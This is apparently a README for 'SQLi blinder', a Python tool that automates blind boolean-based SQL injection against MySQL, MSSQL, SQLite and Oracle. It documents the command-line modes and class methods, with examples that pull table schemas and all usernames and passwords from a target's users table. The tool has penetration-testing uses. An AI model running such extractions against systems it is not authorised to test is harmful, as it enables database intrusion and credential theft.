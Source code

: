 # SQLi blinder

Framework for blind boolean-based sql injections explotation. Use it if sqlmap do shit. 

Support:
- MySQL
- MSSQL
- SQLite
- Oracle

Requires Python 3.x.

There is no dependencies, just `pip install requests` for example `request_func`.

## Usage

You could use sqlib.py console utility or do your own script by importing `sqli_blinder.SQLiBlinder`, but both cases requires you to create your own `request_func`.

### Prepare request_func

The `request_func` must paste single input param to your SQL injection and issue request.
It must return `True` for input param `1=1` and `False` for input param `1=0`.

It's OK to throw on unexpected behavior.

Example presented in `sqlib.py`.

Check your `request_func` with:

```python
SQLiBlinder(request_func,dbms).check()
```

If you want to use sqlib.py - replace `request_func` with your own.

### Run sqlib.py

```
usage: sqlib.py [-h] [-t TABLE] [-c COLUMN] [-w WHERE] [-i INDEX]
                [--threads THREADS] --dbms {mysql,mssql,sqlite,oracle}
                {check,count,one,get}

positional arguments:
  {check,count,one,get}
                        mode - one of ['check','count','one','get']

optional arguments:
  -h, --help            show this help message and exit
  -t TABLE, --table TABLE
                        table nmae
  -c COLUMN, --column COLUMN
                        column names. For get mode could by comma separated array of columns
  -w WHERE, --where WHERE
                        where clause
  -i INDEX, --index INDEX
                        index of row
  --threads THREADS     number of threads
  --dbms {mysql,mssql,sqlite,oracle} DBMS
```

Examples:

`python sqlib.py check` - check `request func`

`python sqlib.py count -t sqlite_master --dbms sqlite` - get count of rows in `sqlite_master` table

`python sqlib.py count -t users --dbms sqlite --where "username='admin'"` - get number of rows in `sqlite_master` table

`python sqlib.py one -t users -c password -i 1 --dbms sqlite` - get value of `password` column in `users` table with index `1`

`python sqlib.py get -t users -c username,password --dbms sqlite` - get all `username` and `password` from `users` table

### SQLiBlinder class

There is four intended public methods:

- `check()` - check provided `request_func` with `1=1` and `1=0` payloads

- `get_count(table_name,where=None)` - get count of rows in `table` with provided `where` clause

- `get_string(table,column,index,where=None)` - get value of `column` in `table` with index=`index`. `where` is optional

- `get(columns,table_name,where=None)` - get all columns in `columns` from `table` where `where`

examples:

```python
sqlib = SQLiBlinder(request_func,'sqlite',multithreaded=True,threads=16)
sqlib.check() # True
sqlib.get_count('sqlite_master') # number of rows in sqlite_master
sqlib.get_string('sqlite_master','sql',1,) # code of first table
sqlib.get(['username','password'],'users') # all usernames and passwords
sqlib.get(['username','password'],'users',where="username='admin'") # admins username and password
```